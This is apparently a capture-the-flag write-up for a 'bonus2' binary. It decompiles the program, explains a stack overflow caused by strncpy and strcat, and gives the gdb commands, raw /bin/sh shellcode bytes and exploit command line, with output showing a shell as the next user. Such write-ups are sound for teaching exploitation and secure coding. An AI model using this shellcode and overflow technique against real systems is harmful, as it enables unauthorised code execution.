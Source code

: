 bonus2
======

Decompilation
-------------

The program looks like this:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <strings.h>

#define LANG_FI "fi"
#define LANG_NL "nl"

#define S_GREETING_EN "Hello "
#define S_GREETING_FI "Hyv\xC3\xA4\xC3\xA4 p\xC3\xA4iv\xC3\xA4\xC3\xA4 "
#define S_GREETING_NL "Goedemiddag! "

enum lang_id
{
    LANG_ID_EN,
    LANG_ID_FI,
    LANG_ID_NL,
};

static enum lang_id    language;

int greetuser(char *message)
{
  char greeting [72];

  if (language == LANG_ID_FI)
    strcpy(greeting, S_GREETING_FI);
  else if (language == LANG_ID_NL)
    strcpy(greeting, S_GREETING_NL);
  else if (language == LANG_ID_EN)
    strcpy(greeting, S_GREETING_EN);

  strcat(greeting, message);

  return puts(greeting);
}


int main(int ac, char **av)
{
  int ret;
  char message [76];
  char *lang;

  if (ac == 3)
  {
    bzero(message, sizeof(message));

    strncpy(message, av[1], 40);
    strncpy(message + 40, av[2], 32);

    lang = getenv("LANG");

    if (lang != NULL)
    {
      ret = memcmp(lang, LANG_FI, sizeof(LANG_FI) - 1);

      if (ret == 0)
        language = LANG_ID_FI;
      else
      {
        ret = memcmp(lang, LANG_NL, sizeof(LANG_NL) - 1);

        if (ret == 0)
          language = LANG_ID_NL;
      }
    }
    ret = greetuser(message);
  }
  else
    ret = 1;
  return ret;
}
```

The main takes two arguments and stores them consecutively into a stack buffer.
Afterwards, it checks the `LANG` variable to determine the language in which to greet the user.
The buffer is then passed to the greetuser function, which will concatenate the greeting and the buffer into a separate stack buffer.
Finally, the message is printed to standard output using puts.

Exploitation
------------

If we manage to overflow the message buffer we can override greetuser's return pointer.
We can exploit strncpy again, because it does not guarantee NUL-termination.
This enables the greetuser's strcat to read the consecutive arguments without encountering the of the string.
Using the `LANG` variable, we can select the longest greeting to fill the beginning of the buffer.

```
buffer_len = 72
arg1_len = 40
greeting_len = 18

arg2_len = buffer_len - arg1_len - greeting_len + 4 = 18
```

The buffer is 72 bytes long, which means that we need to input 40 bytes into the first, and 18 into the second argument to reach the return pointer.

We can determine the address of the destination buffer using gdb, put some shellcode at the beginning and overflow with the buffer's address, to return onto it.

To prevent issues with the environment size interfering with stack addresses, we can use the env utility with the -i option.

```sh
gdb -batch -ex 'set exec-wrapper env -i LANG=fi' -ex 'b * 0x8048522' -ex "r $(printf '%.0sA' {1..40}) $(printf '%.0sB' {1..18})CCCC" -ex 'p (char*) $eax + 18' ./bonus2
```
```
...
Breakpoint 1, 0x08048522 in greetuser ()
$1 = 0xbffffd12 'A' <repeats 40 times>, 'B' <repeats 18 times>, "CCCC"
```

We can now input our shellcode:
```sh
SHELLCODE=$'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

env -i LANG=fi ~/bonus2 "$SHELLCODE$(printf '%.0sA' {1..19})" "$(printf '%.0sB' {1..18})"$'\x12\xfd\xff\xbf' <<< whoami
```
```
Hyvää päivää 1É÷á°
                  Qh//shh/binã̀AAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBýÿ¿
bonus3
```
